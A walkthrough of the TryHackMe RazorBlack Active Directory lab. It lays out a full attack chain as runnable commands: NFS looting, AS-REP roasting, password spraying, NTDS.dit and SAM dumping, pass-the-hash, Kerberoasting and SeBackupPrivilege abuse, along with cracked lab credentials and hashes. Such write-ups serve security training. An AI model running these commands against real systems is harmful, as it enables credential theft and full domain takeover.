# NULLSECURE - FROM NULL TO ROOT

## RazorBlack — TryHackMe Walkthrough

📺 **Video Walkthrough:** [ADD YOUTUBE LINK HERE]

---

## Overview

- **Platform:** TryHackMe
- **Room:** RazorBlack
- **Difficulty:** Medium
- **OS:** Windows (Active Directory)
- **Category:** Red Team

RazorBlack is a medium Windows Active Directory box that starts with an anonymously mountable NFS export and chains through username enumeration, AS-REP Roasting, password spraying, SMB share looting, offline hash cracking, an abandoned NTDS.dit backup, Pass-the-Hash, Kerberoasting, and SeBackupPrivilege abuse to land full Domain Administrator.

**What's covered:**
- NFS enumeration & anonymous mount abuse
- Username list generation from leaked HR data
- AS-REP Roasting
- SMB password spraying & forced password reset
- SMB share looting
- Offline hash cracking (ZIP, AS-REP, Kerberoast)
- NTDS.dit offline hash extraction
- Pass-the-Hash authentication
- Kerberoasting
- WinRM exploitation & Clixml credential harvesting
- SeBackupPrivilege / SeRestorePrivilege abuse
- Full domain compromise

---

## Recon

Started with a fast port sweep, then fed the results into a full Nmap scan:

```bash
rustscan -a <TARGET_IP> --ulimit 5000 -- -sC -sV
```

Added the target to `/etc/hosts` for cleaner commands going forward:

```bash
sudo nano /etc/hosts
# <TARGET_IP>  raz0rblack.thm  rb
```


Port 2049 (NFS) stood out, so it was targeted directly:

```bash
nmap rb -sV -sC -p 2049 --script=nfs-ls,nfs-showmount,nfs-statfs
```


```bash
showmount -e rb
```


---

## Vulnerability Identification

- **Anonymous/unauthenticated NFS export** (`/users`) exposing domain users' home directories over the network with no access control.
- **Sensitive HR data exposed** via the NFS share, leaking a predictable naming convention for username generation.
- **AS-REP Roastable account(s)** — Kerberos pre-authentication disabled for at least one domain user.
- **Weak, shared initial password** (`roastpotatoes`) reused across multiple domain accounts.
- **Sensitive files left exposed on an SMB share** (`trash`), including an abandoned Active Directory backup.
- **Plaintext credentials recoverable from disk** via `Export-Clixml` objects left in user profiles.
- **Kerberoastable service account** with a weak service password.
- **Excessive privilege assignment** (`SeBackupPrivilege` / `SeRestorePrivilege`) enabling local SAM/SYSTEM extraction.

---

## Exploitation

Mounted the open NFS export:

```bash
sudo mkdir -p /mnt/razor
sudo mount -t nfs -o nolock,proto=tcp,vers=3 rb:/users /mnt/razor
```


```bash
sudo -i
cd /mnt/razor
ls
cat sbradley.txt
```
> `THM{REDACTED}`

Also found and opened a leaked HR spreadsheet:

```bash
libreoffice employee_status.xlsx
```



The spreadsheet leaked full employee names, used to build a username wordlist covering common naming conventions:

```bash
nvim list_users.txt

awk '{ first=tolower($1); last=tolower($2);
       print first;
       print last;
       print first last;
       print substr(first,1,1) last;
       print first "." last; }' list_users.txt | sort -u > users.txt
```

With a username list ready, targeted the DC for AS-REP Roastable accounts:

```bash
impacket-GetNPUsers 'raz0rblack.thm/' -usersfile users.txt -dc-ip rb -no-pass -format hashcat -outputfile asrep_hashcat.txt
```


```bash
hashcat -m 18200 asrep_hashcat.txt /usr/share/eaphammer/wordlists/rockyou.txt
```


**Cracked credential:** `twilliams : roastpotatoes`

Validated the credential over SMB:

```bash
nxc smb rb -u 'twilliams' -p 'roastpotatoes'
nxc smb rb -u 'twilliams' -p 'roastpotatoes' --shares
```


Sprayed the same password across the full username list:

```bash
nxc smb rb -u users.txt -p 'roastpotatoes' --shares
```


`sbradley` was valid but flagged for a mandatory password change — reset it directly with NetExec's change-password module:

```bash
nxc smb rb -u 'sbradley' -p 'roastpotatoes' -M change-password -o NEWPASS='Password123!'
```


```bash
nxc smb rb -u 'sbradley' -p 'Password123!' --shares
```


Share enumeration revealed a `trash` share accessible to sbradley:

```bash
smbclient //rb/trash -U sbradley%'Password123!'
mget *
```


The loot included a password-protected archive, `experiment_gone_wrong.zip`, cracked offline:

```bash
zip2john experiment_gone_wrong.zip > hashzip.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashzip.txt
```


**Archive password:** `electromagnetismo`

Unzipping revealed an abandoned Active Directory backup — `ntds.dit` and a matching `SYSTEM` hive.

---

## Post-Exploitation

```bash
unzip experiment_gone_wrong.zip
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | tee dump.txt
awk -F ':' '/:::$/ {print $4}' dump.txt > clean_dump.txt
```

The leftover backup handed over NTLM hashes for every domain account. Swept them against SMB to find valid, re-used hashes:

```bash
nxc smb rb -u users.txt -H clean_dump.txt
```

**Valid hash for `lvetrova`:** `f220d3988deb3f516c73f40ee16c431d`

```bash
nxc winrm rb -u 'lvetrova' -H 'f220d3988deb3f516c73f40ee16c431d'
evil-winrm -u 'lvetrova' -H 'f220d3988deb3f516c73f40ee16c431d' -i rb
```


Found an exported PowerShell credential object inside the profile:

```powershell
cd ..
ls
Get-Content lvetrova.xml
$s = Import-Clixml -Path .\lvetrova.xml
$s.GetNetworkCredential().password
```


> `THM{REDACTED}`

Used lvetrova's hash to Kerberoast the domain for service accounts:

```bash
impacket-GetUserSPNs 'raz0rblack.thm/lvetrova:' -dc-ip rb -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -request -outputfile spns.txt
```


```bash
hashcat -m 13100 spns.txt /usr/share/eaphammer/wordlists/rockyou.txt
```


**Cracked credential:** `xyan1d3 : cyanide9amine5628`

---

## Privilege Escalation

```powershell
nxc winrm rb -u 'xyan1d3' -p 'cyanide9amine5628'
evil-winrm rb -u 'xyan1d3' -p 'cyanide9amine5628' -i rb

cd ..
ls
Get-Content xyan1d3.xml
$s = Import-Clixml -Path .\xyan1d3.xml
$s.GetNetworkCredential().password
```


> `THM{REDACTED}`

```powershell
whoami /priv
```



With `SeBackupPrivilege` enabled, protected registry hives can be dumped directly, bypassing normal ACL restrictions:

```powershell
reg save HKLM\SAM sam.bak
reg save HKLM\SYSTEM system.bak
download sam.bak
download system.bak
```


Cracked the local Administrator hash offline and used it to pass-the-hash into an Administrator session:

```bash
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

**Administrator hash:** `9689931bed40ca5a2ce1218210177f0c`

```bash
nxc winrm rb -u 'Administrator' -H '9689931bed40ca5a2ce1218210177f0c'
evil-winrm -u 'Administrator' -H '9689931bed40ca5a2ce1218210177f0c' -i rb
```


```powershell
ls
cd ..
Get-Content root.xml
```



> `THM{REDACTED}` (decoded from `root.xml` via CyberChef)

With Administrator confirmed, swept the filesystem for remaining loot:

```powershell
Get-ChildItem -Path C:\ -Filter "*Top Secret*" -Directory -Recurse -ErrorAction SilentlyContinue
cd 'C:\Program Files\Top Secret'
dir
download top_secret.png
```


```powershell
cd C:\Users\twilliams\
Get-Content definitely_*.exe
```


> `THM{REDACTED}`

---

## Conclusion

| Stage | Technique | Tool(s) | Result |
|---|---|---|---|
| Recon | NFS Enumeration | nmap, showmount | Found open `/users` export |
| Exploitation | NFS Loot + Username Enumeration | mount, awk | Flag + `users.txt` wordlist |
| Exploitation | AS-REP Roasting | impacket-GetNPUsers, hashcat | `twilliams:roastpotatoes` |
| Exploitation | Password Spray + Forced Reset | NetExec (nxc) | Valid creds; reset `sbradley` |
| Exploitation | SMB Share Looting | smbclient | `experiment_gone_wrong.zip` |
| Post-Exploitation | Offline ZIP Crack | zip2john, john | Archive password recovered |
| Post-Exploitation | NTDS.dit Extraction | impacket-secretsdump | Full domain NTLM hash dump |
| Post-Exploitation | Pass-the-Hash Sweep | NetExec (nxc) | Valid hash for `lvetrova` |
| Post-Exploitation | WinRM PTH + Credential Harvesting | evil-winrm, Import-Clixml | Flag + `lvetrova` access |
| Post-Exploitation | Kerberoasting | impacket-GetUserSPNs, hashcat | `xyan1d3:cyanide9amine5628` |
| Privilege Escalation | Credential Harvesting | evil-winrm, Import-Clixml | Flag + `xyan1d3` access |
| Privilege Escalation | SeBackupPrivilege Abuse | reg save | Local SAM/SYSTEM hives dumped |
| Privilege Escalation | Offline SAM Crack + PTH | impacket-secretsdump, evil-winrm | Administrator access + flag |
| Post-Root Loot | Filesystem Enumeration | evil-winrm | Final flag recovered |

---

## Attack Chain Summary

**NFS Enumeration → Anonymous Mount & Data Leak → Username List Generation → AS-REP Roasting (`twilliams`) → Password Spray & Forced Reset (`sbradley`) → SMB Share Loot (`experiment_gone_wrong.zip`) → Offline ZIP Crack → NTDS.dit Extraction → Domain-Wide Hash Dump → Pass-the-Hash (`lvetrova`) → Kerberoasting (`xyan1d3`) → WinRM Access → SeBackupPrivilege Abuse → Local SAM/SYSTEM Dump → Administrator Hash → Pass-the-Hash (`Administrator`) → Full Domain Compromise**

---

**A1GCH ⚔ NullSecure**
